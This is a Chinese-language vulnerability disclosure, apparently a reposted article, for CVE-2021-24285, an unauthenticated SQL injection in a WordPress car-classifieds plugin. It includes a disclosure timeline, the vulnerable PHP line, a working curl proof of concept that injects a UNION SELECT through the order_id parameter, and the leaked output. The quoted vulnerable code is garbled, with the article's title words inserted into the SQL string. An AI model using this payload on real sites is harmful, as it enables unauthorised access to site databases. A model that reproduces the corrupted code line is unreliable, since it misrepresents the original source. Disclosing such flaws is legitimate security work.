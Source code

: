 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1CAS8RCbXwE0jzthSx7gtA)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV26FPI6h2gQLD7LJy0QHPxn2vTYZuJHPFB1lLe30mAdkQ0ib80V74sYVNiatCXGL3oKaBnZWdzk2oYQ/640?wx_fmt=png)

CVE-2021-24285 

    插件名称：wp-plugin：cars-seller-auto-classifieds-script

    受影响的版本：2.1.0（如果有，则可能是较低版本）

    漏洞：注入

    所需的最低访问级别：未认证

### 披露时间

*   2021 年 4 月 19 日：确定并向 WPScan 公开了问题
    
*   2021 年 4 月 19 日：插件已关闭
    
*   2021 年 4 月 22 日：分配了 CVE
    
*   2021 年 4 月 26 日：公开披露
    

技术细节

        经过 身份验证和未经身份验证的用户都可以使用 request_list_request AJAX 调用，无法 order_id 在 SQL 语句中使用 POST 参数之前对其进行卫生检查，验证或转义，这会导致 SQL 注入问题。

漏洞代码：carseller_request_list.php＃L248

```
248:    $result = $wpdb->get_results("SELECT * FROM $tablename CVE-2021-24285 WordPress Sql注入 WHERE id=" . $_POST['order_id']);
```

Poc：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV26FPI6h2gQLD7LJy0QHPxnxM36oUgZdaXcOOJKVexusOacxKClKd0C7DdiaGk6YLI6fTZ7qqqrTuw/640?wx_fmt=png)

```
curl 'http://<Hostname>/wp-admin/admin-ajax.php' \
  --data-raw 'action=request_list_request&order_id=-1662 UNION ALL SELECT NULL,NULL,current_user(),current_user(),current_user(),NULL,current_user(),current_user(),NULL-- -' \
  --compressed \
  --insecure
```

```
<h1>Request Details</h1>
        <table style=" border: 1px solid #999;width:96%" class="order_detail">
            <tr>
                <td>Request Id</td><td></td>
            </tr>
            <tr>
                <td>Car Title</td><td>Untitled</td>
            </tr>
            <tr>
                <td>Name</td><td>bob@localhost bob@localhost</td>
            </tr>
            <tr>
                <td>Email</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td>Phone</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td>Message</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td colspan="2" align="center"><a href="mailto:bob@localhost" style="background: #2ea2cc;border-color: #0074a2;-webkit-box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);color: #fff;text-decoration: none;vertical-align: baseline;display: inline-block;text-decoration: none;font-size: 13px;line-height: 26px;height: 28px;margin: 0;padding: 0 10px 1px;cursor: pointer;border-width: 1px;
border-style: solid;-webkit-appearance: none;-webkit-border-radius: 3px;border-radius: 3px;white-space: nowrap;-webkit-box-sizing: border-box;-moz-box-sizing: border-box;box-sizing: border-box;">Reply</a></td>

            </tr>

        </table>
        <p style="margin-top:20px; text-align:right;"><a href="#" id="close">Close</a></p>
```